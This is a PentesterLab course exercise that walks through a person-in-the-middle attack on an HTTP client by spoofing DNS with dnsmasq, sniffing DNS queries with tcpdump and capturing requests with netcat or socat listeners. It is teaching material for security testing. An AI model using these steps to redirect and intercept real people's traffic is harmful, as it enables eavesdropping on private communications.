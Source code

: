 # Introduction

This course details how to perform a Person-in-the-Middle attack against a client performing an HTTP connection. Knowing how to perform this type of attacks is critical when performing mobile applications testing.

# The exercise

In this exercise, you have control over the client's DNS resolution. Using this you will be able to lie and tell the client to go to your server instead of the legitimate one. If you manage to get access to the request's content, you finished this exercise.

This exercise is divided in two steps:

-   Setting up a DNS server.
-   Setting up a TCP server.

This is an introduction to more complex exercises that will go into details on how to intercept TLS connection.

To follow this exercise, you will need a public IP address with root access. You can either:

-   Open your home router and use a Linux/Unix system
-   Start a server (for example with [DigitalOcean](https://www.digitalocean.com/?refcode=2cf5189a820f) - referral link).

# Setting up a DNS server

To setup a quick and easy DNS server, you can use `dnsmasq`. It can easily be installed using `apt`, `brew` or `yum` depending on your system.

Once you have it installed, you can create a very simple configuration file (`dnsmasq.conf`):

addn-hosts=dnsmasq.hosts

This configuration will tell `dnsmasq` where to look for your resolution file (`dnsmasq.hosts`).

The `dnsmasq.hosts` file has a syntax very similar to `/etc/hosts`:
```
127.0.0.123   test1.pentesterlab.com
```
Once both files are created, you can start `dnsmasq` in the foreground using:

```bash
$ sudo dnsmasq -C dnsmasq.conf --no-daemon
```

If `dnsmasq` refuses to start it's probably because it may already be running. Some Linux flavors automatically start the daemon when you install it. Make sure you stop the service before running this command.

You can then test your configuration using `dig` or `host`:

-   with `dig`:

```bash
% dig @localhost test1.pentesterlab.com

; <<>> DiG 9.8.3-P1 <<>> @localhost test1.pentesterlab.com
; (3 servers found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 15562
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;test1.pentesterlab.com.    IN  A

;; ANSWER SECTION:
**test1.pentesterlab.com. 0 IN  A 127.0.0.123**

;; Query time: 6 msec
;; SERVER: ::1#53(::1)
;; WHEN: Sun Jan  3 11:11:12 2016
;; MSG SIZE  rcvd: 56
```
-   with `host`:

```bash
% host test1.pentesterlab.com 127.0.0.1
Using domain server:
Name: 127.0.0.1
Address: 127.0.0.1#53
Aliases: 
```
**test1.pentesterlab.com has address 127.0.0.123**

To perform this attack you will obviously need to know what host the server is trying to access. To do so, you can use `tcpdump`:

```bash
% sudo tcpdump -i [INT] udp port 53
```
Where:

-   `[INT]` is the interface you want to listen on. For example, `eth0`.
-   `udp port 53` is used to only sniff UDP packets on port 53 (to keep DNS queries).

After getting the application to use your server as DNS server, you should see a DNS query in `tcpdump`:

```bash
% sudo tcpdump -i eth0 udp port 53
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
05:30:44.362946 IP ptl-intercept-cd787546.libcurl.so.50148 > 104.131.54.221.domain: 43145+ AAAA? mitm1.pentesterlab.com. (40)
05:30:44.363151 IP ptl-intercept-cd787546.libcurl.so.51919 > 104.131.54.221.domain: 39139+ A? mitm1.pentesterlab.com. (40)
05:30:44.363716 IP ptl-intercept-cd787546.libcurl.so.43344 > 104.131.54.221.domain: 30919+ A? mitm1.pentesterlab.com. (40)
```
Based on this information, you can update your `dnsmasq.hosts` file.

# A simple TCP server

Know that we got the client to connect to us, we just need to setup a TCP server. This can easily be done using:

-   `netcat` with `sudo nc -l -p 80`
-   or `socat`:

```
$ socat TCP4-LISTEN:80,fork,reuseaddr -
```
# Conclusion

This exercise showed you how you can intercept a TCP connection from a client when you have control over its DNS resolution. Using that, it's trivial to gain access to the information transmitted over insecure communications. I hope you enjoyed learning with PentesterLab.